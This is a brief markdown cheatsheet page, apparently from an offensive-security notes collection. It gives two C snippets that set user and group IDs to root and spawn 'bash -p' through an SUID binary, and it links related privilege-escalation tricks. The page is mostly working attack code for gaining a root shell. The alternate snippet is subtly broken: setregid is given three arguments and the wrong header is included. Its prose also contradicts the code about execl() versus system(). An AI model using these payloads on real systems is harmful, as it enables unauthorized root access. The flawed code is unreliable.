 # Minimal SUID Shell Launcher

```c
#include <stdio.h>
#include <unistd.h>

main() {
	setuid(0);
	setgid(0);
	execl("/bin/bash",
	      "/bin/bash",
	      "-p",
	      (char*) NULL);
}
```

Alternate approach:

```c
#include <stdio.h>
#include <time.h>

main() {
	setresuid(0, 0, 0);
	setregid(0, 0, 0);
	system("/bin/bash -p");
	return 0;
}
```

Once compiled, this needs to be called by an SUID binary. The `-p` is required to keep bash from dropping privileges.

Note that this is very similar to the `LD_PRELOAD` trick, except that we're using `execl()` instead of `system()` and dropping a header.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [unistd's execl() without passing any arguments](https://stackoverflow.com/a/34400649)
* [Exploiting Bash](./Exploiting%20Bash.md)
* [Exploiting LD_PRELOAD](./Exploiting%20LD_PRELOAD.md)
* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)

